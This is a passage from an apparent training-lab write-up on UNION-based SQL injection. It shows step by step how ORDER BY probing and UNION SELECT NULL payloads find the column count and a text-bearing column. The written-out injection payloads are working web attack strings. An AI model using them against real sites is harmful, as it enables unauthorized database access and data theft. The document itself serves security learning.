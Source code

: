 `ORDER BY 4` failed. That means there are 3 columns. 

![](/assets/images/SQLi/Pasted%20image%2020250930124644.png)

We need to include some values in order to solve the lab so we use three NULL values in the UNION injection.

```
' UNION SELECT NULL, NULL, NULL-- -
```

It works, and we get a `200 OK`.

![](/assets/images/SQLi/Pasted%20image%2020250930124914.png)

The lab gets solved.

![](/assets/images/SQLi/Pasted%20image%2020250930124956.png)

### 8. SQL injection UNION attack, finding a column containing text

Payload that worked:

```
' UNION SELECT NULL, 'Bpcp2PS', NULL-- -
```

Explanation:

As before, we make sure the `category` parameter sends some value and we send the request to repeater.

![](/assets/images/SQLi/Pasted%20image%2020250930125140.png)

We try to find the number of columns using the `ORDER BY` clause. `ORDER BY 3` had worked.

```
' ORDER BY 4-- -
```

`ORDER BY 4` failed. That means there are 3 columns. 

![](/assets/images/SQLi/Pasted%20image%2020250930125221.png)

We use the following query where we put in a random string in place of the `NULL` in the queries. 

This query where the string in the second position from the three positions.

```
' UNION SELECT NULL, 'hello', NULL-- -
```

As we can see it works.

![](/assets/images/SQLi/Pasted%20image%2020250930125440.png)

We can try other positions. 
